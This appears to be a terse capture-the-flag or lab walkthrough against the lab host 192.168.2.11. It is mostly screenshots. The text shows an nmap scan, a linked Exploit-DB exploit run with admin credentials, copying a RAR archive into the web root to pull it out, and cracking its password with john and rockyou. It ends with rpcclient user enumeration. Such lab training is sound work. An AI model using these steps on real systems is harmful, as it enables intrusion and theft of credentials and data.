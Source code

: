 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/46b3eebd-3b00-4c5c-b77e-90dd8649b59e)

```
nmap 192.168.2.11 -v -sC -sV -sT -p-
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/035ed021-38be-4e63-8270-fb2f2a864133)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/fa958512-4acf-4958-984f-ccd4cfad714e)
```
sudo nano /etc/hosts
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3ce8c250-6f52-40b4-a3f2-40899c5d2c45)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4e290b55-96a7-48b9-9d67-b2477d7f6f3a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c75d4e0f-cf98-4bb5-a1cf-db6e6045325e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/aee1b1bb-33ee-4c84-bced-2e5c09c020a8)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/be1b8116-e1ee-4703-b11c-a4dc6178beab)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2f6f2791-0435-4e41-8a03-76fb79c4da59)

https://www.exploit-db.com/exploits/51741
```
python3 sc.py -u http://foundation/ -l admin -p password
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2604cb3a-0647-4bb4-addd-b95747e42d7f)

```
copy C:\IT-support\members.rar C:\xampp\htdocs\members.rar
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3e6d6d4c-a717-4243-a76a-25bba2b661ed)

```
rar2john members.rar > rar.hash
john --wordlist=/home/kali/PAYLOADS/rockyou.txt rar.hash
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4cfab936-c40f-49cb-9d88-6e8389be8deb)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/45092782-9ac5-4cd6-b8ea-0b184a81d8b3)

```
rpcclient -U veronika.sultanova 192.168.2.11
queryuser mikhail.larionov
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/56b20868-b957-4c21-bc6a-f7354e8b3ba4)



